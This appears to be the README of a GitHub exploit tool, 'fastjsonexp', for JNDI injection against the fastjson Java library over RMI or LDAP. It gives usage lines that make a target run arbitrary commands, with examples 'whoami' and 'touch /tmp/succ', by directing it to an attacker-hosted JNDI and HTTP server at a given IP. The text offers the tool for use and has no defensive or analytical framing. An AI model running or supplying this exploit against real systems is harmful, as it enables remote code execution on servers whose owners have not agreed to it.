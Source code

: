 # fastjsonexp
fastjson jndi injection 
rmi/ldap 

## how to use
```
test.py -c <comand> -i <hostip> -t <rmi/ldap> --httpport <httpport> --jndiport <jndiport>

python fastjsonexp.py -c "whoami" -i 30.1.2.222 -t rmi  --httpport 8888  --jndiport 9999

python fastjsonexp.py -c "touch /tmp/succ" -i 30.1.2.222 -t ldap  --httpport 8888  --jndiport 9999
```
